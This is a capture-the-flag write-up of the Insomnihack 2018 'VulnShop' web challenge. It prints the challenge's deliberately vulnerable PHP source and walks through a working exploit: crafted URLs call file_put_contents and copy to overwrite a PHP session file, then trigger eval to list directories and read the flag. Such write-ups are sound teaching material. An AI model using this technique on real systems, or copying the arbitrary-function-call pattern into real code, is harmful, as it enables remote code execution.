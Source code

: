 # VulnShop

VulnShop was a web challenge in the Insomnihack 2018 teaser. It was solved by [SIben](https://twitter.com/_SIben_), nodauf and [Geluchat](https://twitter.com/Geluchat) (*khack40*) for Inshall'hack. While it ended up being the most flagged challenge of the CTF (apart from the warmup, of course), it was an interesting lesson.

## Challenge description

```
We're preparing a website for selling some important vulnerabilities in the future. You can browse some static pages on it, waiting for the official release.

http://vulnshop.teaser.insomnihack.ch
```

## Source code

The link leads to a page containing two interesting links: one to the source code of the page, and the other to the phpinfo output for the server.

The source code was the following:

```php
<?php if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; }
    error_reporting(0); session_start(); 
    // Anti XSS filter
    $_REQUEST = array_map("strip_tags", $_REQUEST);
    // For later, when we will store infos about visitors.
    chdir("tmp");
?>
<!DOCTYPE html>
<html>
    <head>
        <title>Work in progress...</title>
        <meta charset="utf-8" />
        <meta http-equiv="content-type" content="text/html; charset=utf-8" />
        <style>
            body {
                background-color: #aaa;
                color:#fff;
            }
            
            .page {
                width: 50%;
                margin: 0 auto;
                margin-top: 75px;
            }
            
            
            .menu ul li {
                display:inline-block;
                vertical-align:top;
                margin-right: 30px;
                
            }
        </style>
    </head>
    <body>
        <div class="page">
            <div class="menu">
                <ul>
                    <li><a href="?page=default">Home</a></li>
                    <li><a href="?page=introduction">Introduction</a></li>
                    <li><a href="?page=privacy">Privacy</a></li>
                    <li><a href="?page=contactus">Contact</a></li>
                </ul>
            </div>
            
            <div class="content">
                <?php
                        switch($_GET['page']) {
                            case 'default':
                            default:
                                echo "<p>Welcome to our website about infosec. It's still under construction, but you can begin to browse some pages!</p>";
                                break;
                            case 'introduction':
                                echo "<p>Our website will introduce some new vulnerabilities. Let's check it out later!</p>";
                                break;
                            case 'privacy':
                                echo "<p>This website is unbreakable, so don't worry when contacting us about some new vulnerabilities!</p>";
                                break;
                            case 'contactus':
                                echo "<p>You can't contact us for the moment, but it will be available later.</p>";
                                $_SESSION['challenge'] = rand(100000,999999);
                                break;
                            case 'captcha':
                                if(isset($_SESSION['challenge'])) echo $_SESSION['challenge'];
                                // Will make an image later
                touch($_SESSION['challenge']);
                                break;
                            case 'captcha-verify':
                // verification functions take a file for later, when we'll provide more way of verification
                                function verifyFromString($file, $response) {
                                    if($_SESSION['challenge'] === $response) return true;
                                    else return false;
                                }
                                
                                // Captcha from math op
                                function verifyFromMath($file, $response) {
                                    if(eval("return ".$_SESSION['challenge']." ;") === $response) return true;
                                    else return false;
                                }
                                if(isset($_REQUEST['answer']) && isset($_REQUEST['method']) && function_exists($_REQUEST['method'])){
                                    $_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
                                }
                                break;

                        }
                ?>
            </div>
        </div>
        <p><a href="/?hl">View code source of the file, to be sure we're secure!</a></p>
        <p><a href="/phpinfo.php">Show our configurations</a></p>
    </body>
</html>
```

## Angles of attack

Ugh. Lots of different options page options. Two lines catch the eye immediately though:
```php
$_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
```

and

```php
if(eval("return ".$_SESSION['challenge']." ;") === $response) return true;
```

The **phpinfo()** information tells us that the exec-like functions are disabled. We notice that we are able to write arbitrary data to the file `./".$_SESSION['challenge']` using the first line highlighted above with `method` set to `file_put_contents` and `answer` set to whatever we want to write to the file.

The file `./".$_SESSION['challenge']` must be created first of course, which is done by first visiting the **contactus** page (`$_SESSION['challenge'] = rand(100000,999999);`) followed by the **captcha** page (`touch($_SESSION['challenge']);`).

However, the following line is executed at the beginning of the program:
```
$_REQUEST = array_map("strip_tags", $_REQUEST);
```

We're therefore unable to write PHP code to a file, as we can not write the "<" character because of the filter.

The second line highlighted above seems very attractive all of a sudden, but it requires us to control the value of `$_SESSION['challenge']`.

## Modifying session data

In order to control the string passed to **eval**, we need to overwrite the session file with our payload. Fortunately, **phpinfo()** tells us that the session files are stored at `/var/lib/php/sessions`, which means that session **xxx** is stored at **/var/lib/php/sessions/sess_xxx**.

Here are the steps we need to follow:
1. Generate a valid session file containing our payload in `$_SESSION['challenge']`;
2. Write that payload to a file using **file_put_contents** and `$_REQUEST['method']("./".$_SESSION['challenge'],$_REQUEST['answer']);`;
3. Overwrite our session file with the file from the previous step;
4. Call the `verifyFromMath` function in order to trigger the **eval** and profit!

We're going to try to list the files on the server for a start.

### Step 1

The first step is achieved quite easily: in a PHP interpreter, we type the following lines:
```php
session_start();
$_SESSION['challenge'] = "var_dump(scandir($_GET['arg']))";
```
After closing the interpreter, we retrieve the contents of the session file:
`challenge|s:31:"var_dump(scandir($_GET['arg']))";`.

### Step 2

The second step is accomplished by visiting `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=file_put_contents&answer=challenge|s:31:"var_dump(scandir($_GET['arg']))";`.

### Step 3

In the third step, we check our cookie to find out what our session file's name is. Assuming its name is **xxx**, we visit the following link: `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=copy&answer=/var/lib/php/sessions/sess_xxx`.

### Step 4

The fourth step is basically just about gloating about how our awesome payload works, and actually using it:
we visit `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=verifyFromMath&answer=1&arg=/`.
We notice a file named **flag** at the root of the server. Wonder what it could be.

## Wrapping up

Now that we know which file to read, we go through our 4 steps again, with the payload `var_dump(file_get_contents($_GET['arg']))`, and the result is:

**string(39) "INS{4rb1tr4ry_func_c4ll_is_n0t_s0_fun} "**
